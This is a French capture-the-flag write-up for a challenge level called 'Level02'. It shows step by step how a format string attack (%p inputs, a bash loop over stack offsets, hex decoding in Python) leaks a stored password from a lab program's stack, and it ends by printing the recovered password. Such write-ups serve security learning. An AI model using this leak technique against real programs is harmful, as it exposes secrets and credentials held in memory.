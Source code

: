 ## Level02

En le lançant le programme nous demande d'entrée un nom d'utilisateur et un mot de pass. 

    /***************************************\
    | You must login to access this system. |
    \**************************************/
    --[ Username: login
    --[ Password: zadzdz
    *****************************************
    login does not have access!


Quoi que l'ont mettent on nous dit que nous n'avons pas les accès.

Dans le programme nous trouvons un printf, il va donc falloir utiliser une *format string attack*.

En décortiquant le code on s’aperçoit que le .pass qui est open est garder dans un buffer lorsqu'on lance le programme.

Grâce au printf plus bas, nous pouvons donc essayer d'afficher la stack, pour ça nous allons utiliser le paramètre de printf %p.

Ce qui nous donne :

    /***************************************\
    | You must login to access this system. |
    \**************************************/
    --[ Username: %1$p
    --[ Password:
    *****************************************
    0x7fffffffe510 does not have access!
On à donc la première adresse de la stack, bien, maintenant automatisons ça pour le reste.

     for((i = 1; i < 30; i++)); do echo "$i - %$i\$p" | ./level02 ;done

On ajoute un grep pour que ce soit plus lisible. 

     for((i = 1; i < 30; i++)); do echo "$i - %$i\$p" | ./level02 | grep not ;done

    18 - (nil) does not have access!
    19 - (nil) does not have access!
    20 - 0x100000000 does not have access!
    21 - (nil) does not have access!
    22 - 0x756e505234376848 does not have access!
    23 - 0x45414a3561733951 does not have access!
    24 - 0x377a7143574e6758 does not have access!
    25 - 0x354a35686e475873 does not have access!
    26 - 0x48336750664b394d does not have access!
    27 - (nil) does not have access!
    28 - 0x383225202d203832 does not have access!
    29 - 0x7024 does not have access!

On remarque que il y a 5 valeur qui on l'air particulières. On sait que le token fait 40 caractères, donc on en déduit que nos 5 valeurs trouver dans la stack peuvent correspondre à notre token. Puisque 5 * 8 = 40.

On prend donc toutes ces valeurs et on les passes dans un convertisseur hex to ascii.
En utilisant python on obtient : 

    $ python -c 'print "756e505234376848".decode("hex")[::-1]'
    Hh74RPnu
    $ python -c 'print "45414a3561733951".decode("hex")[::-1]'
    Q9sa5JAE
    $ python -c 'print "377a7143574e6758".decode("hex")[::-1]'
    XgNWCqz7
    $ python -c 'print "354a35686e475873".decode("hex")[::-1]'
    sXGnh5J5
    $ python -c 'print "48336750664b394d".decode("hex")[::-1]'
    M9KfPg3H

  Le [::-1] permet de reverse la string, puisqu'elle nous est donnée depuis la stack.

Le password du level03 est donc :

    Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H


 




